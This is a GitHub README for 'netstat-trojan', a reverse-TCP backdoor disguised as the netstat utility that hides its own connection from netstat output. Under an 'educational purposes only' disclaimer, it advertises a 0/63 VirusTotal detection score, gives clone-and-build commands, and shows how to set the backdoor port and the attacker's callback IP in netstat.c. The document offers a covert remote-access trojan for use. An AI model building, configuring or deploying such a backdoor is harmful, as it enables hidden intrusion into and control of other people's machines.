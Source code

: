 ```
                              /********************************************************************\
                               *                           DISCLAIMER:                            *
                               *                                                                  *
                               *  This program is for educational purposes only. Usage signifies  *
                               *  understanding of risks. Usage on unauthorized systems is        *
                               *  prohibited.                                                     *
                               *                                                                  *
                               *  - Use only with proper authorization. Unauthorized use is       *
                               *    strictly prohibited.                                          *
                               *                                                                  *
                               *  - The creator assumes no liability for damages or legal         *
                               *    consequences caused by this program.                          *
                               *                                                                  *
                               *  - Ensure compliance with applicable laws and regulations.       *
                               *                                                                  *
                               *  Use responsibly, ethically, and respect others' privacy and     *
                               *  security.                                                       *
                              \********************************************************************/
```


# netstat-trojan
**netstat-trojan** is a reverse-TCP backdoor disguised within the netstat utility. It's designed to automatically exclude itself from the netstat output. 

[VIRUS TOTAL RESULTS](https://www.virustotal.com/gui/file/7b2d7a27e5907cc3210ab57aa1dc376c0555acb96da29288ca700408e68dbc3d/detection) 0/63

## Setup

1. Clone the repository:
   ```bash
   git clone https://github.com/Drew-Alleman/netstat-trojan/
   ```
2. Navigate to the cloned directory:
   ```bash
   cd netstat-trojan/
   ```
3. Initialize the configuration scripts:
   ```bash
   ./autogen.sh
   ```
4. Run the configuration:
   ```bash
   ./configure
   ```

## Configuration Process
To configure the Netstat-Trojan to suit your specific needs, you will need to modify the `netstat.c` file:

1. Open `netstat.c` in your preferred text editor. For example, using `vim`:
   ```bash
   drew@ubuntu-desktop:~/Projects/netstat-trojan$ vim src/netstat.c
   ```
2. Locate and modify the following settings:

   - **Port Configuration**: Define the port to host the backdoor.
     ```c
     #define PORT 44566
     ```
   - **Server IP Configuration**: Set the attacking IP address or the server address that the backdoor will connect to.
     ```c
     #define SERVER_IP "192.168.0.87"
     ```

Ensure that you replace `PORT` and `SERVER_IP` with the values that align with your desired configuration.

